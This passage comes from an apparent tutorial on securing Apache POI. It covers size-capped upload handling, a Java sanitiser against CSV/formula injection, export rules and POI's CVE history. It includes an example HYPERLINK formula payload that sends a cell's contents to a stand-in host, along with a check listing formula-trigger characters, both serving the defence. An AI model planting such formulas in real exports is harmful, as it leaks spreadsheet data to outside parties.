public BookImportService(Path uploadDir) {
this.uploadDir = uploadDir; // a directory only this service can read, outside the web root
}
public List<String> importTitles(InputStream upload, String clientFileName) throws UploadRejectedException {
Path stored = null;
try {
stored = Files.createTempFile(uploadDir, "upload-", ".bin"); // the client name is never used in a path
copyAtMost(upload, stored, MAX_BYTES);
validator.validate(stored, clientFileName);
return reader.readFirstColumn(stored, 20);
} catch (IOException e) {
throw new UploadRejectedException("The upload could not be stored.", e);
} finally {
if (stored != null) {
try {
Files.deleteIfExists(stored);
} catch (IOException ignored) {
// logged in a real service
}
}
}
}
private static void copyAtMost(InputStream in, Path target, long max) throws IOException, UploadRejectedException {
byte[] buffer = new byte[8192];
long total = 0;
try (OutputStream out = Files.newOutputStream(target)) {
int n;
while ((n = in.read(buffer)) != -1) {
total += n;
if (total > max) {
throw new UploadRejectedException("The file is larger than 10 MiB.");
}
out.write(buffer, 0, n);
}
}
}
@Override
public void close() {
reader.close();
}
}Observed (the third call streams 11 MiB, the fourth is the zip bomb, and the upload directory is empty afterwards):
service ok : 7 rows
service big : The file is larger than 10 MiB.
service bomb : The file could not be read.
left in uploads: 0Source: the OWASP File Upload Cheat Sheet and POI Security.
Two last controls belong to the web layer and not to POI. Authenticate and authorise the upload endpoint (a file-upload endpoint that anyone can call is a denial-of-service endpoint; see Spring Security and the OAuth pages of the site), and rate-limit it per user. And when the file came from an upload, never log or return the parser’s message: it can contain part names, file paths and fragments of the document.
Formula injection in exported files
The first half of the page protected the server from a file. The second half protects a person from your export.
CSV injection, also called formula injection, happens when a field that an attacker controls (a book title, a
borrower name, a comment) starts with a character that a spreadsheet application treats as the beginning of a formula.
When an employee opens the report, the application evaluates it: =HYPERLINK("https://example.test/?q="&B2,"Click") leaks
the neighbouring cell to a third party, and older DDE payloads can start programs after a confirmation prompt.
OWASP lists the characters to watch: =, +, -, @, and the tab and carriage-return characters (0x09, 0x0D);
a leading line feed is included in the code below as well. Where the characters come from matters: any text that
reaches an exported cell qualifies, including data that "your own database" holds, because a user wrote it earlier.
What is and is not dangerous in an .xlsx
The risk is different in each file type, and an honest page says so:
| Output | What happens with a leading = |
|---|---|
.xlsx written with |
The text is stored as a string cell (in the shared string table or as an inline string). Excel shows the text and does not evaluate it. The cell is safe as long as nothing converts it to a formula later, and the risk reappears when the user edits the cell, pastes it elsewhere, or saves the sheet as CSV. |
.xlsx written with |
The text is stored in an |
CSV |
The application decides. Excel and LibreOffice evaluate a field that starts with |
.xlsx cell with a leading apostrophe typed by a user |
In Excel, an apostrophe typed at the start of a cell is the quote prefix: it is not part of the value. A leading apostrophe written into the value by code is visible text. |
POI offers no guard here: setCellFormula accepts any text that its parser understands, and setCellValue(String)
does not look at the text. The rule at the end of this section is therefore a rule for your code.
The sanitiser
The class has four ways to neutralise text, depending on the target:
-
setText(Cell, String)for .xlsx: writes a string withsetCellValue(String), and when the text looks like a formula also sets a shared cell style withsetQuotePrefixed(true). That writes thequotePrefixattribute that Excel itself uses when a person types an apostrophe: the cell shows the text exactly and Excel will not turn it into a formula if the user presses F2 and Enter. The style is created once per workbook, in line with the style-sharing rule of the styles page (Cell Styles, Fonts & Formats). -
neutralize(String)for any sink without a quote-prefix flag: prefixes the OWASP single quote. -
csvField(String)for CSV: neutralises the text, then always wraps it in double quotes and doubles any quote inside it, as OWASP also requires. Without the quoting, a comma inx,=HYPERLINK(...)would start a new field that begins with=. -
looksLikeFormula(String)for validation and tests.
package bookshelf.security;
import org.apache.poi.ss.usermodel.Cell;
import org.apache.poi.ss.usermodel.CellStyle;
import org.apache.poi.ss.usermodel.Workbook;
/** Formula-injection defences for text that came from users or from the database. */
public final class CellSanitizer {
private final CellStyle textStyle;
public CellSanitizer(Workbook wb) {
textStyle = wb.createCellStyle(); // one shared style, created once
textStyle.setQuotePrefixed(true); // writes quotePrefix="1": Excel treats the cell as text
}
/** True when a spreadsheet application could read the text as a formula or a DDE command. */
public static boolean looksLikeFormula(String s) {
if (s == null || s.isEmpty()) {
return false;
}
char c = s.charAt(0);
return c == '=' || c == '+' || c == '-' || c == '@' || c == '\t' || c == '\r' || c == '\n';
}
/** For CSV and for any format that has no quote-prefix flag: OWASP's single-quote prefix. */
public static String neutralize(String s) {
return looksLikeFormula(s) ? "'" + s : s;
}
/** One CSV field: neutralised, always quoted, embedded quotes doubled (RFC 4180). */
public static String csvField(String s) {
String value = s == null ? "" : neutralize(s);
return '"' + value.replace("\"", "\"\"") + '"';
}
/** For .xlsx: always a string cell, never a formula, plus the quote-prefix flag when needed. */
public void setText(Cell cell, String userText) {
cell.setCellValue(userText); // setCellValue(String), never setCellFormula(userText)
if (looksLikeFormula(userText)) {
cell.setCellStyle(textStyle);
}
}
}The demonstration writes the hostile values, one harmless text and a negative number written as text, then makes the
mistake that the page warns about, setCellFormula with user text, and reads everything back (observed):
STRING quotePrefix=true =HYPERLINK("https://example.test/?q="&B2,"Click")
STRING quotePrefix=true +1+1
STRING quotePrefix=true -2+3
STRING quotePrefix=true @SUM(1)
STRING quotePrefix=false Dune
STRING quotePrefix=true -5
FORMULA quotePrefix=false HYPERLINK("https://example.test/?q="&B2,"Click")
csv: "'=HYPERLINK(""https://example.test/?q=""&B2,""Click"")","'+1+1","'-2+3","'@SUM(1)","Dune","'-5"The first six rows are string cells, and the flag is set on those that start with a dangerous character. The seventh
row is the bug: the same text sent to setCellFormula becomes a formula cell, which POI accepted without complaint.
Nothing in POI stops you; the protection is the rule that user text never reaches setCellFormula.
Notice -5. A negative number that arrives as a string is flagged too, because the sanitiser cannot tell -5 from
-2+3. If the value is a number, do not convert it to text: write it with setCellValue(double) and a number format,
as in Dates, Numbers & DataFormatter. Only strings pass
through the sanitiser.
Source: OWASP CSV Injection,
CellStyle (setQuotePrefixed) and
Cell (setCellValue, setCellFormula).
The rules for exports
-
Always
setCellValue(String)for user data. NeversetCellFormula, never a string that you build by concatenating user text into a formula such as"SUM(" + userRange + ")". If a formula needs user input, take the input as a cell reference to a cell that holds the text (B2), not as part of the formula text. -
Sanitise at the boundary of the export, not in the database. The stored title keeps its characters; the sink adds the protection that the format needs.
-
Sanitise every sink: .xlsx text cells, CSV fields, the Word reports (a field code in a .docx is not user text, but a value that ends up in a
HYPERLINKfield instruction is) and the file name of the download. -
Do not rely on removing characters. Stripping a leading
=changes the data and is easy to bypass with a leading space or a Unicode look-alike on some applications; prefixing preserves the data and is what OWASP recommends. -
Test it. A unit test that exports
=1+1, reads the workbook back and asserts the cell type isSTRINGis one assertion and prevents the regression forever (the testing page of this section shows the pattern). -
Tell the recipient. A report that is also consumed by scripts should document that text fields can start with a quote.
The same problem, for CSV, in Python is covered on Django
Responses: Streaming, CSV & PDF, and the JSF page JSF File Upload &
Download shows where an export button in a JSF application passes through the same rule. The export endpoints of this
section reuse CellSanitizer.
Mapping and persisting: the data is still hostile
Parsing safely is not the end. A cell is a string chosen by the uploader, and the import maps it to your own types:
-
Validate by type and range, per cell (that is the work of the import pages of this section): lengths, allowed characters for ISBNs, numeric ranges for prices, dates inside a plausible window.
-
Parameterise every SQL statement and escape every value that you put in HTML, even if you "just imported it". A book title of
<script>...is as likely to come from an Excel file as from a form. -
Cap the number of rows and columns you will read, independently of the file size. A sheet can declare a used range of a million rows in a tiny file. Stop at your own limit and report it.
-
Do not follow what the file refers to. External links, hyperlinks, linked pictures and OLE objects are data. Do not fetch a URL found in a cell without an allow-list of hosts (a server-side request forgery otherwise).
-
Never use values from the file in paths. Embedded picture names, sheet names and part names are attacker-controlled. The Word pages that extract embedded images generate their own names for that reason.
-
Never evaluate. Do not run
FormulaEvaluatorover a file you do not trust, and never pass any text to a script engine.
CVE history
The POI project publishes its security advisories on the home page and says that it "does occasionally issue CVEs". This is the list of those shown there, verified on 2026-10-09 against the POI home page. The CVE identifiers are the reference; follow them for the exact affected versions in NVD or OpenCVE.
| Date | Identifier | Issue | Fixed in |
|---|---|---|---|
8 April 2025 |
CVE-2025-31672 |
Improper input validation in |
|
4 March 2022 |
CVE-2022-26336 |
A crafted TNEF file can make the HMEF package of |
|
December 2021 |
CVE-2021-44228, CVE-2021-45046, CVE-2021-45105 (Log4j) |
Not vulnerabilities of POI: they are in |
Upgrade the application’s Log4j |
13 January 2021 |
CVE-2021-23926 |
XXE in Apache XMLBeans before 3.0.0 (parsers created by XMLBeans 2.6.0 and older). |
XMLBeans 3.0.0 (POI uses XMLBeans 5.x today) |
20 October 2019 |
CVE-2019-12415 |
XXE in |
POI 4.1.1 |
Three lessons come out of the list. Four of the five entries are about input that is parsed from an untrusted file, so
the sections above are the practical side of the history. Two are in components that many applications never call
(XSSFExportToXml, the TNEF reader), which is the argument for not shipping tools and readers that you do not use.
And one is not in POI at all (Log4j), which is the argument for knowing your transitive dependencies:
Setup & Dependencies shows how POI’s own logging works.
Source: POI home page (project news), POI Security and OpenCVE entry for CVE-2025-31672.
Staying updated
-
Run the newest 5.5.x (5.5.1 on 2026-10-09). The 5.5.x line gets critical and security fixes; POI follows semantic versioning, so a patch or minor upgrade does not break the API. 6.0 is announced and will need JDK 17; plan the move and read
changes.htmlfirst. -
Use one version of every POI artifact. Mixing
poi,poi-ooxmlandpoi-scratchpadof different versions causesNoSuchMethodErrorat the worst moment, and defeats security fixes. -
Watch XMLBeans and Commons Compress too. They are the libraries that actually unzip and parse. Dependabot, Renovate or the OWASP Dependency-Check plugin catch most of these, and a Maven
dependency:treeshows the versions that Maven chose. -
Subscribe to the advisories: the POI home page, the
announcemailing list and the OpenCVE project page for Apache POI. -
Keep a regression corpus. A directory of hostile files (the bomb, the renamed executable, the macro file, the DOCTYPE sheet from this page) run by a unit test after each upgrade turns "did the upgrade change our protection?" into a green or red build. The testing page of this section shows how to build one.
-
Re-check limits at each upgrade. Defaults can change between versions; the
describe()output of this page is a one-line check.
Pitfalls checklist
| Pitfall | Fix |
|---|---|
Trusting |
Use the allow-list, then |
Reading the whole upload into a |
Stream to a private temp file with a counting copy. |
Catching only |
Catch |
Believing |
Use a child process or a container for hard limits. |
Raising |
Raise it in the process that handles trusted files, to the value that file needs. |
Writing user text with |
|
Returning the exception message |
Return a fixed message; log the cause with a correlation id. |
Storing the upload and showing it to other users |
Reject macros, serve with |
Running |
Read cached values with |
Sharing POI’s temp directory |
Install a private |
What POI does not provide
-
No sandbox and no "safe mode". The limits are tripwires; isolation is your job.
-
No malware scanning and no macro removal. POI does not read VBA, run it or strip it; it can only preserve or drop parts when it rewrites a file, and you should not rely on that for safety.
-
No guarantee of completeness. The project states that its checks for suspicious values are not comprehensive, and that legacy formats in particular can exhaust memory.
-
No per-request limits. Everything in the configuration table is static and JVM-wide.
-
No API to verify a document’s origin other than the OOXML signature support, which is covered on the encryption and signing page of this section, and which proves integrity, not safety.
References
-
POI Security: https://poi.apache.org/security.html
-
POI Configuration (limits,
DEFAULT_XML_OPTIONS, temp files): https://poi.apache.org/components/configuration.html -
POI home page (security advisories and CVE notices): https://poi.apache.org/
-
POI Release Changes: https://poi.apache.org/changes.html
-
Javadoc,
ZipSecureFile: https://poi.apache.org/apidocs/dev/org/apache/poi/openxml4j/util/ZipSecureFile.html -
Javadoc,
IOUtils: https://poi.apache.org/apidocs/dev/org/apache/poi/util/IOUtils.html -
Javadoc,
FileMagic: https://poi.apache.org/apidocs/dev/org/apache/poi/poifs/filesystem/FileMagic.html -
Javadoc,
XMLHelper: https://poi.apache.org/apidocs/dev/org/apache/poi/util/XMLHelper.html -
Javadoc,
POIXMLTypeLoader: https://poi.apache.org/apidocs/dev/org/apache/poi/ooxml/POIXMLTypeLoader.html -
Javadoc,
TempFile: https://poi.apache.org/apidocs/dev/org/apache/poi/util/TempFile.html -
Javadoc,
WorkbookFactory: https://poi.apache.org/apidocs/dev/org/apache/poi/ss/usermodel/WorkbookFactory.html -
Javadoc,
CellStyle: https://poi.apache.org/apidocs/dev/org/apache/poi/ss/usermodel/CellStyle.html -
Javadoc,
Cell: https://poi.apache.org/apidocs/dev/org/apache/poi/ss/usermodel/Cell.html -
Javadoc,
HSSFWorkbook: https://poi.apache.org/apidocs/dev/org/apache/poi/hssf/usermodel/HSSFWorkbook.html -
Javadoc,
HWPFDocument: https://poi.apache.org/apidocs/dev/org/apache/poi/hwpf/HWPFDocument.html -
OWASP CSV Injection: https://owasp.org/www-community/attacks/CSV_Injection
-
OWASP File Upload Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
-
OWASP XML External Entity Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
-
OpenCVE, CVE-2025-31672: https://www.opencve.io/cve/CVE-2025-31672